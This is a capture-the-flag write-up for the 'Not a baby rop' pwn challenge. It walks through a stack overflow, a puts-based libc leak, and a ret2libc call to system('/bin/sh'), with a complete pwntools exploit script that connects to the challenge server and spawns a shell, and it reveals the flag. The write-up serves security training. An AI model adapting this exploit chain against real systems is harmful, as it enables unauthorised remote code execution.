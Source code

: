 # Not a baby rop

	You already know what's up 😉
	warzone.hackrocks.com:7770

<!-- MarkdownTOC -->

- [Pwn it](#pwn-it)
	- [Leak Libc Address](#leak-libc-address)
	- [Find the Libc version](#find-the-libc-version)
	- [Use Libc to get system\('/bin/sh'\)](#use-libc-to-get-systembinsh)
- [Script](#script)
- [Flag](#flag)

<!-- /MarkdownTOC -->

## Pwn it

![Checksec and linked](screenshots/2022-05-23_16-01-13.png)

First to notice, is mitigations : 

- No Canary
- No Stack execution
- No PIE, so the code of the binary wouldn't move

Also, binary is dynamically linked, and not stripped(so debug step should be easier).



![SigSegv confirmed](screenshots/2022-05-23_18-16-45.png)

As we confirmed there is a Segfault error, we now try to see if the RIP is overwritten, and the offset of this overflow :

![Get the offset](screenshots/2022-05-23_18-23-49.png)

The offset, then, is 136 (`cyclic -o 0x6261616a`)

Plus, the libc address is randomized : 

![Libc address randomized](screenshots/2022-05-23_18-26-47.png)

So, the plan to pwn the bin would look like to :

- Leak the libc with puts@plt(puts@got) + ret2main (mine is ret2entrypoint)
- Search for the libc version from that leak
- Use this libc to call `system('/bin/sh')`

### Leak Libc Address

So, to make the ropchain to leak a libc address, it should look like this : 

	PADDING + POP RDI ; RET + PUTS@GOT + PUTS@PLT + ENTRYPOINT

```py
from pwn import *

HOST = "warzone.hackrocks.com"
PORT = 7770

elf = ELF('not-a-baby-rop')

DEBUG = True

if DEBUG:
	libc = elf.libc
	p = elf.process()
else:
	# libc = ELF('future_libc.so') # We don't have it yet
	p = remote(HOST, PORT)

rop = ROP(elf)

offset = 136

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(elf.symbols.got.puts),
	p64(elf.symbols.plt.puts),
	p64(elf.entrypoint)
	])

_ = p.recvuntil(b"let's see what u got\n")
p.sendline(payload)
leaked = unpack(p.recvuntil(b"let's see what u got")[:6], 'all')

print("Leaked", hex(leaked))
```
![](screenshots/2022-05-24_01-45-46.png)

### Find the Libc version

From the previous step, we get the puts address from loaded libc. Then we can find the libc version with this data, with Blukat DB : 

![Blukat DB find Libc Version](screenshots/2022-05-24_01-46-54.png)

### Use Libc to get system('/bin/sh')

As we have the right libc version, we can load it in our script as an elf, then set its base address to use it in a right way.

So this second payload should look like : 

	PADDING + POP RDI ; RET + /BIN/SH POINTER + SYSTEM

```py
libc.address = leaked - libc.symbols.puts

print("Libc @ ", hex(libc.address))

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(next(libc.search(b'/bin/sh\x00'))),
	p64(libc.symbols.system)
	])

p.sendline(payload)
p.interactive()
```

## Script

```py
from pwn import *

HOST = "warzone.hackrocks.com"
PORT = 7770

elf = ELF('not-a-baby-rop')

DEBUG = False

if DEBUG:
	libc = elf.libc
	p = elf.process()
else:
	libc = ELF('libc.so')  # libc6_2.28-10+deb10u1_amd64
	p = remote(HOST, PORT)

rop = ROP(elf)

offset = 136

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(elf.symbols.got.puts),
	p64(elf.symbols.plt.puts),
	p64(elf.entrypoint)
	])

# context.log_level = 'debug'

_ = p.recvuntil(b"let's see what u got\n")
p.sendline(payload)
leaked = unpack(p.recvuntil(b"let's see what u got")[:6], 'all')

print("Leaked", hex(leaked))
libc.address = leaked - libc.symbols.puts

print("Libc @ ", hex(libc.address))

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(next(libc.search(b'/bin/sh\x00'))),
	p64(libc.symbols.system)
	])

p.sendline(payload)
p.interactive()
```

![Pwned](screenshots/2022-05-24_01-51-09.png)

## Flag

	flag{its_4_s1mpl3_r0pppp}